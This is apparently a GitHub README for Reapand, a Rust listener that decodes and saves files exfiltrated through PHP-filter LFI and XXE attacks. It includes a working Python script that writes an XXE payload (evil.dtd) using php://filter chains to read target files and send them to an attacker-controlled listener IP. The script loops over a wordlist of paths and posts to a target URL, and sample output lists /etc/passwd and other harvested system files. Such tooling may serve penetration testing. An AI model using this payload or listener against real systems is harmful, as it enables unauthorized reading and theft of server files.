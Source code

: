 # Reapand 
## Author: [Raphael Dray](https://www.linkedin.com/in/raphaeldray/)
Reapand is a fast command line tool written in Rust, built to reap data from 
LFI/[PHP-Filters](https://www.php.net/manual/en/filters.php) source for example.

For now the tool supports principals encoding of php-filters:
* **Zlib**
* **Bzip2**
* **Base64**

It also serves local files and so can be used to serve malicious files
during Out Of Bound exploitation.

Its main purpose is to be used in conjunction with a script that 
uses a wordlist of interesting files.

Reapand is licensed under the Apache 2.0 License.
## Command Line Usage
```
@@@@@@@   @@@@@@@@   @@@@@@   @@@@@@@    @@@@@@   @@@  @@@  @@@@@@@
@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@ @@@  @@@@@@@@
@@!  @@@  @@!       @@!  @@@  @@!  @@@  @@!  @@@  @@!@!@@@  @@!  @@@
!@!  @!@  !@!       !@!  @!@  !@!  @!@  !@!  @!@  !@!!@!@!  !@!  @!@
@!@!!@!   @!!!:!    @!@!@!@!  @!@@!@!   @!@!@!@!  @!@ !!@!  @!@  !@!
!!@!@!    !!!!!:    !!!@!!!!  !!@!!!    !!!@!!!!  !@!  !!!  !@!  !!!
!!: :!!   !!:       !!:  !!!  !!:       !!:  !!!  !!:  !!!  !!:  !!!
:!:  !:!  :!:       :!:  !:!  :!:       :!:  !:!  :!:  !:!  :!:  !:!
::   :::   :: ::::  ::   :::   ::       ::   :::   ::   ::   :::: ::
 :   : :  : :: ::    :   : :   :         :   : :  ::    :   :: :  :

reapand 1.3.0
Raphael Dray <dray.raph@gmail.com>
Create files by decoding client input from specified encodings

USAGE:
    reapand.exe [OPTIONS] --encode <encoding>... [--] [ip|hostname]

OPTIONS:
    -h, --help       Print help information
    -V, --version    Print version information

ENCODING:
    -e, --encode <encoding>...    Order of encoding applied to the content [possible values: b64,
                                  zlib, bzip2, rot13]

LISTENER:
    -p, --port <port>    Port Listener [default: 4444]
    <ip|hostname>    Host Listener [default: 0.0.0.0]

OUTPUT:
    -d, --dir <dir>    Directory in which will be saved files [default: .]

Command Line Usage Examples:
reapand -e b64,zlib -p 20000 -d files/
reapand -e b64,bzip2 -- 127.0.0.1
```

### Example
In order to use this tool we can build a tiny python script 
during the exploitation of there an XXE2LFI:
```python
#!/usr/bin/env python3

from time import sleep
from requests import Session
from sys import argv

s = Session()

LISTENER_IP = argv[1]
LISTENER_PORT = argv[2]
TARGET_URL = argv[3]
WORDLIST = argv[4]

ENCODINGS = [
    "bzip2.compress",
    "convert.base64-encode"
]

LFI_PAYLOAD = f"""
<!ENTITY % file SYSTEM "php://filter/{"/".join(ENCODINGS)}/resource=[FILE]">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://{LISTENER_IP}:{LISTENER_PORT}/[REAPAND_FMT_FILE]?%file;'>">
%eval;
%exfiltrate;
"""

with open(WORDLIST) as f:
    for l in f:
        with open("evil.dtd", "w") as writer:
            writer.write(LFI_PAYLOAD.replace("[FILE]", l.strip("\n")).replace("[REAPAND_FMT_FILE]", l.replace("/", "_").strip("\n")))

        s.post(TARGET_URL, files={'text': open("CV.docx", "rb")}, data={
            "name": "reapand",
            "email": "reapand",
            "submit": "submit"
        })
        sleep(1)
```

Note, this script is just an example of what you could build in 
conjunction with Reapand.
![Reapand Handling Requests](images/reapand handling requests.png)
```bash
❯ tree -R files/
files/
└── etc
    ├── crontab
    ├── fstab
    ├── hosts
    ├── hosts.allow
    ├── hosts.deny
    ├── issue
    ├── lsb-release
    ├── mtab
    ├── network
    │   └── interfaces
    ├── networks
    └── passwd

2 directories, 11 files
```

Then we get all the content of the readable files on the remote filesystem !